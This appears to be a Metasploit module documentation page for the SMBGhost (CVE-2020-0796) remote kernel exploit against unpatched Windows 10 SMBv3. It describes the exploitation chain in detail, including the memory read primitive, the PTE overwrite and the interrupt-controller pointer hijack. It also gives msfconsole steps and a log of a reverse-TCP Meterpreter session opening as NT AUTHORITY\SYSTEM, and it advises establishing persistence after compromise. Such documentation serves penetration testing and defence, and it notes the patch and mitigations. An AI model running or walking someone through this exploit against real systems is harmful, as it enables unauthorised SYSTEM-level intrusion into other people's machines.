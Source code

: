 ## Vulnerable Application
A vulnerability exists within the Microsoft Server Message Block 3.1.1 (SMBv3) protocol that can be leveraged to
execute code on a vulnerable server. This remote exploit implementation leverages this flaw to execute code
in the context of the kernel, finally yielding a session as NT AUTHORITY\SYSTEM in spoolsv.exe.

This vulnerability was patched in March 2020 but prior to that enough information was publicly available to trigger a
crash which led to pre-patch workarounds. The official recommendation from [Microsoft][1] at the time was to disable
SMBv3 compression, a feature which this exploit relies on. The module's check method will determine this value using the
registry to identify whether or not compression has been disabled.

Other recommendations included restricting access to TCP port 445 via firewalls.

### Warning
There is a high probability that even when the exploit is successful the remote target will crash within about 90
minutes. It is recommended that after a successful compromise, a persistence mechanism be established and the system be
rebooted to avoid a Blue Screen of Death (BSOD).

### Installation And Setup
Windows 10 versions 1903 and 1909 (without the patch) are vulnerable out of the box. The default setting is to have
SMBv3 compression enabled.

### Exploit Internals

The exploit is based on [this PoC][2] and [this research][3]. At a high level the steps are:

1. Leverage the vulnerability to create a read primitive for physical memory
    1. Use the vulnerability to write an `MDL` describing the physical memory to read into `KUSER_SHARED_DATA`
        * `KUSER_SHARED_DATA` is used because it exists at a known address and has read/write permissions
    1. Use the vulnerability to corrupt a `SRVNET_BUFFER_HDR` to reference the previously written MDL
    1. Attempt to negotiate with the remote server, causing the desired memory to be returned as the response
1. Use the read primitive to scan for the low stub, fingerprinting it based on a known value
1. Extract the address of the page map level 4 (PML4) from the low stub once found
    1. Store the address of the low stub because it exists within the HAL heap
1. Scan the PML4 for its self-reference entry to leak its address in virtual memory, this is also used to translate
  virtual addresses into physical addresses in the future
1. Scan the HAL heap looking for the `hal!HalpInterruptController`, fingerprinting it based on a known pattern
1. Extract the address of the `hal!HalpApicRequestInterrupt` from the `hal!HalpInterruptController`
1. Use the write primitive to overwrite the PTE for `KUSER_SHARED_DATA`, granting it the necessary privileges to be
  executable
1. Copy the shellcode (which is a combination of a kernel mode bootstrap and the usermode payload from Metasploit) to
  `KUSER_SHARED_DATA`
1. Use the write primitive to overwrite the pointer of `hal!HalpApicRequestInterrupt` in `hal!HalpInterruptController`,
  replacing it with a pointer to the shellcode
1. The shellcode queues two APCs to execute the usermode payload as described in [this research][4]
    1. The first APC queues a routine in spoolsv.exe
    1. The second APC allocates memory for the shellcode, copies it and queues it's execution

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/smb/cve_2020_0796_smbghost`
1. Set the `RHOSTS` and `PAYLOAD` options
1. Do: `run`
1. You should get a shell, the exploitation process may take a few minutes

## Scenarios

### Windows 10 Version 1909 Build 18363.418 x64

```
msf6 > use exploit/windows/smb/cve_2020_0796_smbghost
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set RHOSTS 192.168.159.76
RHOSTS => 192.168.159.76
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] 192.168.159.76:445 - Executing automatic check (disable AutoCheck to override)
[!] 192.168.159.76:445 - The service is running, but could not be validated.
[*] 192.168.159.76:445 - Found low stub at physical address 0x0000000000013000
[*] 192.168.159.76:445 - PML4 at 0x00000000001ad000 (UEFI)
[*] 192.168.159.76:445 - HAL heap found at 0xfffff7cd80000000
[*] 192.168.159.76:445 - Found PML4 self-reference entry at 0x0122
[*] 192.168.159.76:445 - Found hal!HalpInterruptController at 0xfffff7cd80001478
[*] 192.168.159.76:445 - Found hal!HalpApicRequestInterrupt at 0xfffff8035f6b7bb0
[*] 192.168.159.76:445 - KUSER_SHARED_DATA PTE NX bit cleared!
[*] Sending stage (200262 bytes) to 192.168.159.76
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.76:49675) at 2021-04-09 14:01:43 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-RTCRBEV
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
meterpreter > 
```

[1]: https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/adv200005
[2]: https://github.com/chompie1337/SMBGhost_RCE_PoC
[3]: https://ricercasecurity.blogspot.com/2020/04/ill-ask-your-body-smbghost-pre-auth-rce.html
[4]: https://rce4fun.blogspot.com/2019/04/circumventing-windows-defender-atps.html
